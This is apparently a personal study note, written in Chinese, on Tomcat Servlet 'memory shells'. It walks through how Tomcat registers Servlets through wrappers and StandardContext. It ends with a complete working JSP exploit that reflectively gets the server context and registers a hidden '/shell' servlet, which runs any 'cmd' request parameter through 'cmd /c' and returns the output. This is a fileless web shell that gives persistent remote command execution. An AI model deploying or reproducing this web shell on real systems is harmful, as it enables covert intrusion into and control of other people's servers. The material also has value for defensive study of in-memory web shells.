

# Tomcat-Servlet内存马

## 前言

开始Servlet内存马的学习，没看明白。。。简单记录一下网上文章的思路。以后有空了再回来深入了解一下。


## Servlet的流程

Servlet的编写肯定不用说，关键的问题就在于怎么注册一个Servlet。

和Servlet注册有关的是wrapper。

在`StandardContext#startInternal()`中，这里获取所有的wrapper，然后调用`loadOnStartup`：

```java
    public Container[] findChildren() {
        synchronized(this.children) {
            Container[] results = new Container[this.children.size()];
            return (Container[])this.children.values().toArray(results);
        }
    }
```

`loadOnStartup`中在这里进行了wrapper的装载：




之后在`ContextConfig#configureContext`中，用于创建wrapper：


主要是这四个方法的设置：

```java
newWrapper.setName(name);
newWrapper.setLoadOnStartup(1);
newWrapper.setServlet(servlet);
newWrapper.setServletClass(servlet.getClass().getName());
```

最后加入到`child`中：

```java
            wrapper.setOverridable(servlet.isOverridable());
            this.context.addChild(wrapper);
```

再通过`context.addServletMappingDecoded()`进行路径映射。


## EXP

```java
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="javax.servlet.annotation.WebServlet" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="org.apache.catalina.Wrapper" %>
<%!

    public class ShellServlet extends HttpServlet {
        @Override
        protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            super.doPost(req, resp);
        }

        @Override
        protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            String cmd = req.getParameter("cmd");
            if (cmd!=null){
                String[] cmds = {"cmd","/c",req.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                byte[] bcache = new byte[1024];
                int readSize = 0;
                try(ByteArrayOutputStream outputStream = new ByteArrayOutputStream()){
                    while ((readSize =in.read(bcache))!=-1){
                        outputStream.write(bcache,0,readSize);
                    }
                    resp.getWriter().println(outputStream.toString());
                }
            }
        }
    }

%>
<%
    Servlet servlet = new ShellServlet();
    Field reqField = request.getClass().getDeclaredField("request");
    reqField.setAccessible(true);
    Request req = (Request) reqField.get(request);
    StandardContext context = (StandardContext)req.getContext();
    Wrapper wrapper = context.createWrapper();
    wrapper.setName("shell");
    wrapper.setServlet(servlet);
    context.addChild(wrapper);
    context.addServletMappingDecoded("/shell","shell");

%>
```

